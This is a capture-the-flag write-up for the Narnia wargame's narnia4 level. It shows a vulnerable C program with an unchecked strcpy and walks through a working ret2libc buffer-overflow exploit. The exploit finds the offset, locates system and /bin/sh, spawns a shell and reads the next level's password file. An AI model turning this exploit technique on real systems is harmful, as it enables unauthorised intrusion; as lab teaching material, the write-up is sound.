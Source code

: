 # narnia4
slopey112 - 3/6/19

Let's take a look at the binary and see what it does.
```
narnia4@narnia:/narnia$ ./narnia4
narnia4@narnia:/narnia$ ./narnia4 asdf
```
Huh. Nothing seems to happen. Let's take a look at the source code.
```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```
Okay, so we get a pointer to the environment variables and they are all overwritten, preventing us from hiding shell code inside the environment variable. However, there are two key observations: 1) Once again, there is no check for bounds on `argv[1]`; 2), the use of `return`.

Given that the vulnerability is a buffer overflow vulnerability, we can simply do a ret2libc attack, just like we did in [narnia2](/narnia/narnia2.md).

Let's first try to find the offset. After trying a few different values, I find that the offset is 260, +4 for the saved EBP address.
```
Starting program: /narnia/narnia4 $(python -c "print 'A'*264")

Breakpoint 1, 0x0804852c in main ()
(gdb) x/20wx $ebp
0xffffd5b8:	0x41414141	0xf7e2a200	0x00000002	0xffffd654
0xffffd5c8:	0xffffd660	0x00000000	0x00000000	0x00000000
0xffffd5d8:	0xf7fc5000	0xf7ffdc0c	0xf7ffd000	0x00000000
0xffffd5e8:	0x00000002	0xf7fc5000	0x00000000	0x862b9a6b
0xffffd5f8:	0xbcc4967b	0x00000000	0x00000000	0x00000000
```
Now let's find the location of `system` and `/bin/sh`.
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c850 <system>
(gdb) find 0xf7e4c850, +9999999999, "/bin/sh"
0xf7f6ecc8
warning: Unable to access 16000 bytes of target memory at 0xf7fc8a50, halting search.
1 pattern found.
(gdb) x/s 0xf7f6ecc8
0xf7f6ecc8:	"/bin/sh"
```
Now that we have all the pieces, we can make our payload.
```
narnia4@narnia:/narnia$ ./narnia4 $(python -c "print 'A'*264+'\x50\xc8\xe4\xf7'+'BBBB'+'\xc8\xec\xf6\xf7'")
$ cat /etc/narnia_pass/narnia5
faimahchiy
```
